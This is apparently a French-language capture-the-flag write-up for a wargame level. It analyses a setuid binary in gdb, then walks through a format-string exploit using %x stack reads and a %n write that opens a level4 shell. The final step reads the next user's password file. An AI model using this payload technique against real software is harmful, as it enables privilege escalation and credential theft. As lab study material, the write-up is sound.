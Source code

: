 ## Comportement
- J'ai des droits `level3` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3*`
- En exécutant le binaire (`./level3`), on observe:
  - qu'il attend un input de notre part.
  - qu'il print notre input avant de quitter.
  - il ne segfault pas meme si l'input est long.


## Analyse
En analysant le binaire (`gdb ./level3`) on observe:
- La présence d'une fonction `v()` avec un appel a `fgets()`: cette fonction est securisee, voila pourquoi le programme ne segfault pas. 
  ```shell
  (gdb) disas v
  ...
  0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
  ...
  ```
- On compare une variable globale situee a l'adresse `0x804988c` avec la valeur `0x40` (64 en hexadécimal). Si les deux valeurs sont egales le programme ouvrira un shell avec la fonction `system()`.
  ```shell
  (gdb) disas v
  ...
  0x080484da <+54>:	mov    0x804988c,%eax
  0x080484df <+59>:	cmp    $0x40,%eax
  ...
  0x08048513 <+111>:	call   0x80483c0 <system@plt>
  ...
  ```
- Utilisation de `printf()`. Peut etre sujet a faille si mal utilise : par exemple `printf("hello")` est vulnerable alors que `print("%s", "hello")` ne l'est pas. La raison : dans la premiere version, un utilisateur peut y inscrire ce qui sera interprete par printf comme des instructions (`%s`) et il ira chercher dans la stack un parametre qui n'existe pas et nous donnera un beau segfault. Voila notre porte d'entree. Bingo Bounga ! 
```shell
echo "%s" | ./level3
Segmentation fault (core dumped)
```


## Résolution
- Avec "%x", `printf()` imprime l'adresse. Nous pouvons ainsi voir l'etat de la stack.
  ```shell
  $ echo "%x %x %x %x" | ./level3
  200 b7fd1ac0 b7ff37d0 25207825
  ```
- Nous devons voir à quelle adresse notre buffer se trouve. On teste avec "BBBB" ("42424242"). On le voit a la 4eme position.
  ```shell
  $ echo "BBBB %x %x %x %x %x %x" | ./level3
  BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825
  ```
- Maintenant, nous devons changer cette adresse par celle de la `m` (`0x804988c`) que nous voulons overflow.
  ```shell
  $ python -c 'print "\x8c\x98\x04\x08" + "%x %x %x %x"' | ./level3
  �200 b7fd1ac0 b7ff37d0 804988c
  ```
- En utilisant le modificateur "%n" au lieu de "%x" on ecrit une adresse au lieu de l'afficher. "%n" écrit dans l'adresse le nombre d'octets précédents.On peut specifier l'adresse ainsi `%[number]$n option`.
```shell
$ python -c 'print "\x8c\x98\x04\x08" + "%4$n"' | ./level3
```
- Maintenant, nous devons écrire un offset de 64 bytes dans "m" pour passer la condition. Il suffit donc d'ajouter 60 octets de plus au 4 bytes de l'adresse de `m`.
```shell
python -c 'print "\x8c\x98\x04\x08"+ "B" * 60 + "%4$n"' > /tmp/payload
```
- On couple l'envoi du payload avec le trick qui permet a stdin de rester open (`- |`).
  ```shell
  cat /tmp/payload - | ./level3
  �BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
  Wait what?!
  ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level4`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/level4/.pass`)
  - quitter le shell (`exit`)
  - et passer au level4 (`su level4`) en renseignant ce password.
